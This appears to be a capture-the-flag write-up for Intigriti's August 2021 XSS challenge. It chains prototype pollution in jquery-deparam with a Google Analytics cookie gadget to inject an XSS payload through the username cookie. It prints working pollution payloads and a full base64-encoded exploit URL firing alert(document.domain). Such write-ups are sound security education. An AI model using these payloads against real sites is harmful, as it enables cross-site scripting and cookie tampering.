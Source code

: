 ```yaml
---
grand_parent: Write-ups
parent: 2021
title: August
nav_order: 2
---
```


## Write-up

Looking at the [source](https://challenge-0821.intigriti.io/challenge/main.js) of the challenge, we see that when the challenge loads, the `handleLoad()` function is invoked.

```js
const handleLoad = () => {
    let username = readCookie('username');
    if (!username) {
        document.cookie = `username=unknownUser${Math.floor(Math.random() * (1000 + 1))};path=/`;
    }

    let recipe = deparam(atob(new URL(location.href).searchParams.get('recipe')));

    ga('create', 'ga_r33l', 'auto');

    welcomeUser(readCookie('username'));
    generateRecipeText(recipe);
    console.log(recipe)
}

window.addEventListener("load", handleLoad);
```

We can see that if a cookie `username` is not already set, it will be set to "unknownUser{random integer}". After that, the value inside the request parameter `recipe` is base64-decoded and then passed to this `deparam()` function.

If we look at the main challenge [page](view-source:https://challenge-0821.intigriti.io/challenge/cooking.html), we see that this function is from a library called [jquery-deparam](https://github.com/AceMetrix/jquery-deparam). We see that a Google Analytics script is also included. 🤔

```js
<script src="main.js"></script>
<script src="https://rawcdn.githack.com/AceMetrix/jquery-deparam/81428b3939c4cbe488202b5fa823ad661d64fb49/jquery-deparam.js"></script>
<script src="https://www.google-analytics.com/analytics.js"></script>
```

Looking up the `jquery-deparam` library, we found that it is used to transform a request query string into a JS object. We also found that it is vulnerable to [Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/jquery-deparam.md). This means that we are able to pollute the Object prototype and insert/modify arbitrary properties belonging to it!

So our `recipe` parameter can contain the following payload to pollute the Object prototype:

```
?__proto__[test]=test
?constructor[prototype][test]=test
```

Testing that the pollution works (sending it as part of the base-64 encoded `recipe` parameter):

```sh
__proto__%5Btest%5D=test
```

<img src="images/1.jpg" >

It works! However, even if we can pollute the Object prototype, it does **not** appear that the code has any clone/merge operations that would trigger any payloads that we insert.

> More on Prototype Pollution [here](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications).

So let's get back to tracing the code.

After the `recipe` value is decoded and transformed into a JS Object, a call to google analytics is made followed by setting the username label on the page to the value specified in the cookie. This code is vulnerable if we are able to control the content of `username`.

```js
function welcomeUser(username) {
    let welcomeMessage = document.querySelector("#welcome");
    welcomeMessage.innerHTML = `Welcome ${username}`;
}
```

Since the content is from `username` cookie, there must be some way to influence the value of this cookie. The google analytics code looks out of place and maybe there is some kind of sink that we can use? Surely there must be a reason why this analytics is only invoked after our `recipe` Object is initialized. 😄

Sure enough, there is a [sink](https://github.com/BlackFan/client-side-prototype-pollution/blob/master//gadgets/google-analytics.md) which will read the `cookieName` property. So, we are able to add an arbitrary cookie using the following payload:

```
?__proto__[cookieName]=COOKIE%3DInjection%3B
```

Trying out the following payload, we see that a `username` cookie with the value `1337pwned` has been added (sending it as part of the base-64 encoded `recipe` parameter):

```
__proto__%5BcookieName%5D=username%3D1337pwned%3B
```

<img src="images/2.jpg" >

However, there is another problem in how the cookies are processed by the application. From the `readCookie()` function, we see that it will loop through the values returned by `document.cookie` and when the substring `username=` is matched, its value will be returned (remaining cookies are ignored).

```js
function readCookie(name) {
    let nameEQ = name + "=";
    let ca = document.cookie.split(';');
    for (let i=0; i < ca.length; i++) {
        let c = ca[i];
        while (c.charAt(0)===' ') c = c.substring(1,c.length);
        if (c.indexOf(nameEQ) === 0) return c.substring(nameEQ.length,c.length);
    }
    return null;
}
```

Our injected cookie shows up as the second cookie. We will need to increase its precedence so that it will be processed before the original cookie. After looking around, it [appears that when cookies have the same name](https://www.sitepoint.com/3-things-about-cookies-you-may-not-know/), their precedence is ranked by whichever cookie has a more elaborate `Path`.

Let us then add an additional prototype pollution property, this time on `cookiePath`. We will set it to `/challenge` which will make it more precise than the default `/`.

Replacing the payload `username` cookie with a simple XSS payload (`<img src onerror=alert(document.domain)>`), this leaves us with the payload:
```
__proto__%5BcookieName%5D=username%3D%3Cimg src onerror%3Dalert(document.domain)%3E;&__proto__%5BcookiePath%5D=/challenge
```

Sending this base64-encoded payload in the `recipe` request parameter:

```
https://challenge-0821.intigriti.io/challenge/cooking.html?recipe=X19wcm90b19fJTVCY29va2llTmFtZSU1RD11c2VybmFtZSUzRCUzQ2ltZyBzcmMgb25lcnJvciUzRGFsZXJ0KGRvY3VtZW50LmRvbWFpbiklM0U7Jl9fcHJvdG9fXyU1QmNvb2tpZVBhdGglNUQ9L2NoYWxsZW5nZQ==
```

... triggers the XSS:

<img src="images/3.jpg" >
